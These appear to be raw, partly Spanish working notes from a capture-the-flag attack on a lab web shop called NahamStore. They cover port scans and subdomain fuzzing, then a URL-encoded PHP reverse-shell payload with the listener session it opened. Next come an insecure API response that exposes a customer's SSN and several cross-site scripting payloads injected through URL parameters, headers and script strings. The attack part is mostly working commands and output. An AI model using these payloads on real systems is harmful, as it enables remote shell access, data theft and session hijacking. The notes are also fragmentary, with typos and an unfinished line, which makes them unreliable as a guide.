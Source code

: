 ──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ sudo nmap -sS --min-rate 5000 -p- --open -n -Pn 10.201.114.3 -oN scan.txt
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-01 09:51 EDT
Nmap scan report for 10.201.114.3
Host is up (0.27s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ grep '^[0-9]' scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
22,80,8000
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ nmap -22,80,8000 -sV -sC -Pn -vvv -n 10.201.114.3 -oN fullScan.txt 
nmap: unrecognized option '-22,80,8000'
See the output of nmap -h for a summary of options.
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ nmap -p22,80,8000 -sV -sC -Pn -vvv -n 10.201.114.3 -oN fullScan.txt 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-01 09:52 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
Initiating Connect Scan at 09:52
Scanning 10.201.114.3 [3 ports]
Discovered open port 22/tcp on 10.201.114.3
Discovered open port 80/tcp on 10.201.114.3
Discovered open port 8000/tcp on 10.201.114.3
Completed Connect Scan at 09:52, 0.26s elapsed (3 total ports)
Initiating Service scan at 09:52
Scanning 3 services on 10.201.114.3
Completed Service scan at 09:52, 11.99s elapsed (3 services on 1 host)
NSE: Script scanning 10.201.114.3.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 7.58s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 1.05s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
Nmap scan report for 10.201.114.3
Host is up, received user-set (0.26s latency).
Scanned at 2025-08-01 09:52:11 EDT for 21s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 84:6e:52:ca:db:9e:df:0a:ae:b5:70:3d:07:d6:91:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDk0dfNL0GNTinnjUpwRlY3LsS7cLO2jAp3QRvFXOB+s+bPPk+m4duQ95Z6qagERl/ovdPsSJTdiPXy2Qpf+aZI4ba2DvFWfvFzfh9Jrx7rvzrOj0i0kUUwot9WmxhuoDfvTT3S6LmuFw7SAXVTADLnQIJ4k8URm5wQjpj86u7IdCEsIc126krLk2Nb7A3qoWaI+KJw0UHOR6/dhjD72Xl0ttvsEHq8LPfdEhPQQyefozVtOJ50I1Tc3cNVsz/wLnlLTaVui2oOXd/P9/4hIDiIeOI0bSgvrTToyjjTKH8CDet8cmzQDqpII6JCvmYhpqcT5nR+pf0QmytlUJqXaC6T
|   256 1a:1d:db:ca:99:8a:64:b1:8b:10:df:a9:39:d5:5c:d3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC/YPu9Zsy/Gmgz+aLeoHKA1L5FO8MqiyEaalrkDetgQr/XoRMvsIeNkArvIPMDUL2otZ3F57VBMKfgydtBcOIA=
|   256 f6:36:16:b7:66:8e:7b:35:09:07:cb:90:c9:84:63:38 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPAicOmkn8r1FCga8kLxn9QC7NdeGg0bttFiaaj11qec
80/tcp   open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: NahamStore - Setup Your Hosts File
|_http-favicon: Unknown favicon MD5: 8880CB0A929B848F386E68C5E3FA1676
| http-methods: 
|_  Supported Methods: GET HEAD POST
8000/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 09:52
Completed NSE at 09:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads/NahamStore]
└─$ 












# DOMINIOS 

ffuf -u http://nahamstore.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "HOST: FUZZ.nahamstore.thm" -mc all -fw 125


shop                    [Status: 301, Size: 194, Words: 7, Lines: 8, Duration: 258ms]
marketing               [Status: 200, Size: 2025, Words: 692, Lines: 42, Duration: 272ms]
stock 

shop.nahamstore.thm marketing.nahamstore.thm stock.nahamstore.thm nahamstore-2020.nahamstore.thm nahamstore-2020-dev.nahamstore.thm









 `php%20-r%20%27%24sock%3Dfsockopen%28%2210.8.163.249%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`




─$ nc -nlvp 4444  



 connect to [10.8.163.249] from (UNKNOWN) [10.201.114.3] 38374
ls
css
index.php
js
robots.txt
uploads
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/html/public
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      2431fe29a4b0
127.0.0.1       nahamstore.thm
127.0.0.1       www.nahamstore.thm
172.17.0.1      stock.nahamstore.thm
172.17.0.1      marketing.nahamstore.thm
172.17.0.1      shop.nahamstore.thm
172.17.0.1      nahamstore-2020.nahamstore.thm
172.17.0.1      nahamstore-2020-dev.nahamstore.thm
10.131.104.72   internal-api.nahamstore.thm





 dirsearch -u http://nahamstore-2020-dev.nahamstore.thm -r



gobuster dir --url http://nahamstore-2020-dev.nahamstore.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt









http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2



{"id":2,"name":"Jimmy Jones","email":"jd.jones1997@yahoo.com","tel":"501-392-5473","ssn":"521-61-6392"}

{
"id": 2,
"name": "Jimmy Jones",
"email": "jd.jones1997@yahoo.com",
"tel": "501-392-5473",
"ssn": "521-61-6392"
}

















Intente activar el error, cambie el cifrado, por ejemplo. http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c to http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642a




Inserte la carga útil xss: <script>alert(‘XSS’)</script> y se mostrará correctamente una ventana emergente de JavaScript

<script>alert('XSS');</script>

1. http://marketing.nahamstore.thm/?error=      <script>alert('XSS');</script>



## 2 xss   User-Agent


POST /basket HTTP/1.1
Host: nahamstore.thm
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://nahamstore.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: <script>alert('XSS');</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nahamstore.thm/basket
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: token=bb72697aca9485e60239d4733654c502; session=cb4e5b3a6057628857e96e0a65af6a2a
Connection: close
address_id=6&card_no=1234123412341234



## 3   title

http://nahamstore.thm/product?id=1&name=%3C/title%3E%3Cscript%3Ealert(%27XSS%27)%3C/script%3E%3C/title%3E





## 4   search


<script>
    var search = '&lt;script&gt;alert('XSS');&lt;/script&gt;';
    $.get('/search-products?q=' + search,function(resp){
        if( resp.length == 0 ){

            $('.product-list').html('<div class="text-center" style="margin:10px">No matching products found</div>');

        }else {
            $.each(resp, function (a, b) {
                $('.product-list').append('<div class="col-md-4">' +
                    '<div class="product_holder" style="border:1px solid #ececec;padding: 15px;margin-bottom:15px">' +
                    '<div class="image text-center"><a href="/product?id=' + b.id + '"><img class="img-thumbnail" src="/product/picture/?file=' + b.img + '.jpg"></a></div>' +
                    '<div class="text-center" style="font-size:20px"><strong><a href="/product?id=' + b.id + '">' + b.name + '</a></strong></div>' +
                    '<div class="text-center"><strong>$' + b.cost + '</strong></div>' +
                    '<div class="text-center" style="margin-top:10px"><a href="/product?id=' + b.id + '" class="btn btn-success">View</a></div>' +
                    '</div>' +
                    '</div>');
            });
        }
    });
</script>




"';alert('XSS');'"

<script>
var search = '"';alert('XSS');'"';

</script>





## 5

http://nahamstore.thm/returns/2?auth=c81e728d9d4c2f636f067f89cc14862c


</textarea><script>alert('XSS');</script>



## 6


http://nahamstore.thm/%3Cscript%3Ealert('XSS');%3C/script%3E







## 7 

: http://nahamstore.thm/product?id=1&added=1&discount=99999" "onmouseover=alert(documento.cookie)

¿Qué otro parámetro oculto puedes encontrar en la tienda cual pu





http://nahamstore.thm/product?id=2

<script>
$('.checkstock').click( function(){

$.post('/stockcheck',{
product_id  :   $(this).attr('data-product-id'),
server      :   'stock.nahamstore.thm'
},function(resp){
let obj = JSON.parse(resp);
alert( 'There are ' + obj.stock + ' items in stock');
});
});
</script>






# XXE


ffuf -u "http://nahamstore.thm/?FUZZ=https://google.com" -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -ac (r & q)
